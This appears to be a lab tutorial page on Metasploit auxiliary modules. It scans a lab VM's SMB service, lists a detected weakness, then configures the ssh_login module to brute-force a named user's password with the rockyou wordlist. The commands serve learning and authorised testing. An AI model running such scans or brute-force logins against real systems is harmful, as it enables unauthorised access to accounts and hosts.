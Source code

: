 ### Auxiliary Modules

Auxiliary modules provide protocol enumeration, port scanning, fuzzing, sniffing, and more, and are useful for info gathering (gather/hierarchy) and enum (scanner/hierarchy).

```
192.168.249.202 VM#2
192.168.249.201 VM#1
```


```console
> show auxiliary

> search type:auxiliary smb
   56  auxiliary/scanner/smb/smb_version                                                normal  No     SMB Version Detection

> use 56

msf6 auxiliary(scanner/smb/smb_version) > info

msf6 auxiliary(scanner/smb/smb_version) > show options

msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.249.202

// OR you can set the RHOSTS automatically with the database

msf6 auxiliary(scanner/smb/smb_version) > unset RHOSTS
msf6 auxiliary(scanner/smb/smb_version) > services -p 445 --rhosts

msf6 auxiliary(scanner/smb/smb_version) > run
[*] 192.168.249.202:445   - SMB Detected (versions:2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1, Pattern_V1) (encryption capabilities:AES-256-GCM) (signatures:optional) (guid:{0ffd6eea-581e-4c36-8b96-27c82686d18a}) (authentication domain:BRUTE2)
[*] 192.168.249.202:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


// see if metasploit automatically detected vulnuss
msf6 auxiliary(scanner/smb/smb_version) > vulns
2024-04-07 17:22:28 UTC  192.168.249.202  SMB Signing Is Not Required  URL-https://support.microsoft.com/en-us/help/161372/how-to-enable-smb-signing-in-windows-nt,URL-https://support.microsoft.com/en-us/help/887429/overview-of-server-message-block-signing

```

Try another module.

```console

msf6 auxiliary(scanner/smb/smb_version) > search type:auxiliary ssh
15  auxiliary/scanner/ssh/ssh_login                                        normal  No     SSH Login Check Scanner

msf6 auxiliary(scanner/smb/smb_version) > use 16

msf6 auxiliary(scanner/ssh/ssh_login) > show options

msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME george
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.249.201
msf6 auxiliary(scanner/ssh/ssh_login) > set RPORT 2222
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 192.168.249.201:2222 - Starting bruteforce
```